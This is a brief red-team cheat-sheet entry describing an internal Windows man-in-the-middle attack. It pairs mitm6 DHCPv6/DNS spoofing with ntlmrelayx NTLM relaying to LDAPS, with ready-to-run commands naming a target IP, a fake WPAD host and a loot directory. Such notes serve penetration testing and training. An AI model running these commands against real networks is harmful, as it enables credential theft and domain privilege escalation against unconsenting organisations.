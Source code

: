 # REDTEAM
## INTERNAL WINDOWS
### --> MITM ATTACKS
#### 1. *Mitm6 + NTLM RELAY*
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**Description:** The attack enables to forge fake DNS Server, by replaying to DHCPv6 requests in internal network. The tool can be combined with ntlmrelay to further escalate privileges.
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<br/><br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**Repositry:** https://github.com/fox-it/mitm6<br/><br/>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</br>

Description | Commands
------------ | -------------
*First set up ntlmrelay* | `ntlmrelayx.py -6 -t ldaps://10.0.10.26 -wh fake.cyberlabs.kz -l loot`
*Start mitm6 on the same network that hosts in* | `mitm6.py -d cyberlabs.kz`
